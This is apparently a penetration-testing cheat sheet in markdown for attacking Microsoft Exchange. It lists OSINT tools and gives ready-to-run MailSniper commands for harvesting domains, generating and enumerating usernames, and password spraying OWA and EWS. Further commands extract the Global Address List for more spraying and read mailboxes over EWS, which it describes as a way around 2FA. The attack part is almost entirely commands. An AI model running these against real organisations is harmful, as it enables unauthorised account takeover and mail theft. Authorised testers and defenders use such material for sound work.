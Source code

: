 ````

#### Collection of data (OSINT)
- Collect e-mail adresses, usernames, passwords, get the email/user account naming scheme with tools such as:
  - https://github.com/mschwager/fierce
  - https://www.elevenpaths.com/innovation-labs/technologies/foca
  - https://github.com/lanmaster53/recon-ng
  - https://github.com/leebaird/discover
  - https://github.com/laramies/theHarvester

#### Domain name discovery
- https://github.com/dafthack/MailSniper
```
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME>
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME> -OutFile <POTENTIAL_DOMAINS.TXT> -CompanyName "TARGET NAME"
```
- Internal Domain name may be found inside a SSL Certificate

#### Name scheme fuzzing
- Create a username list from the OSINT
- Could use https://github.com/dafthack/EmailAddressMangler to generate mangled username list
```
Invoke-EmailAddressMangler -FirstNamesList <TXT> -LastNameList <TXT> -AddresConvention fnln | Out-File -Encoding ascii possible-usernames.txt
```

- https://gist.github.com/superkojiman/11076951
```
/opt/namemash.py names.txt >> possible-usernames.txt
```

#### Username Enumeration
- https://github.com/dafthack/MailSniper
```
Invoke-UsernameHarvestOWA -Userlist possible-usernames.txt -ExchHostname <EXCH HOSTNAME> -DOMAIN <IDENTIFIED INTERNAL DOMAIN NAME> -OutFile domain_users.txt
```

#### Password discovery
- https://github.com/dafthack/MailSniper
```
Invoke-PasswordSprayOWA -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile ews-sprayed-creds.txt
```

#### Global Address List (GAL) Extraction
- https://els-cdn.content-api.ine.com/09f3f35f-6f69-4a9d-90be-d13046e692c0/index.html#
```
Get-GlobalAddressList -ExchHostname <EXCH HOSTNAME> -UserName <DOMAIN>\<USER> -Password <PASSWORD> -Verbose -OutFile global-address-list.txt
```
- Then you could spray passwords again to get access to more mail accounts!

#### Bypassing 2fa
- Can check by server responses if supplied password is correct or not.
- Most 2FA vendors do not cover all available Exchange protocols. Owa might be protected but EWS might not be!

```
# Access through EWS
Invoke-SelfSearch -Mailbox <MAIL ADDRESS> -ExchHostname <DOMAIN NAME> -remote
```

````